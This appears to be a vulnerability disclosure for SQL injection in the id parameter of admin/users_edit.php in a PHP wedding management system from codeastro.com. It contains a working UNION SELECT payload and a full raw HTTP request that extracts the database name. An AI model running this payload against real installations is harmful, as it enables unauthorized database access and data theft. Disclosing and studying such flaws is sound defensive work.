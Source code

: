 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\users_edit.php

Vulnerability location: /Wedding-Management/admin/users_edit.php?id=, id

[+] Payload: id=-8%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/users_edit.php?id=-8%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984768-2a9258f8-ba73-4244-bfc4-9557f0b8d35a.png)

![image](https://user-images.githubusercontent.com/54017627/167984775-2fd88145-e703-487b-b3cb-6fbb55a6f904.png)
